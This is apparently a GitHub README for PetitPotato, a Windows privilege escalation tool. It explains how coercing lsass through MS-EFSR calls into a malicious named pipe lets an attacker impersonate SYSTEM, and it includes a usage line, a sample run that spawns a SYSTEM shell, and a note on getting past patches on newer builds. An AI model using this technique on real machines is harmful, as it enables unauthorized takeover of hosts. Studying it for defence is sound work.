 # PetitPotato

Local privilege escalation via PetitPotam (Abusing impersonate privileges).

## Description

[PetitPotam](https://github.com/topotam/PetitPotam) uses MS-EFSR (Encrypting File System Remote), a protocol used to perform maintenance and management operations on encrypted data stored remotely and accessed over a network. There are a series of APIs similar to `EfsRpcOpenFileRaw` in MS-EFSR. The syntax of the `EfsRpcOpenFileRaw` API is shown below.

```c++
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

Such APIs can specify a UNC path via the FileName parameter to open encrypted objects on the server for backup or restore. When the path in the format `\\IP\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsvc` with `NT AUTHORITY SYSTEM` account privileges.

If we can call the `EfsRpcOpenFileRaw` API to force the local computer to connect to the malicious named pipe we created, then we can impersonate the named pipe client process and eventually gain the SYSTEKM privilege.

## Usage

```powershell
PetitPotato.exe [EfsID] [Command]
```

- `EfsID`: MS-EFSR API number to use
- `Command`: command to execute

## Example

```cmd
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd.exe

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [版本 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![image-20221030165055659](/images/image-20221030165055659.png)

![image-20221030165622668](/images/image-20221030165622668.png)

## Update on 2023/03/14

PetitPotam does not work on newer versions of Windows due to the limitations of related patches. However, setting AuthnLevel to `RPC_C_AUTHN_LEVEL_PKT_PRIVACY` via `RpcBindingSetAuthInfoW` before calling EFS works on latest systems.

At present, the project can perfectly elevate to SYSTEM authority on Windows 21H2 10.0.20348.1547

![image-20221030165055659](/images/image-20221030165155659.png)

## Link

- https://github.com/topotam/PetitPotam
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://itm4n.github.io/from-rpcview-to-petitpotam/
- https://github.com/zcgonvh/EfsPotato/pull/5

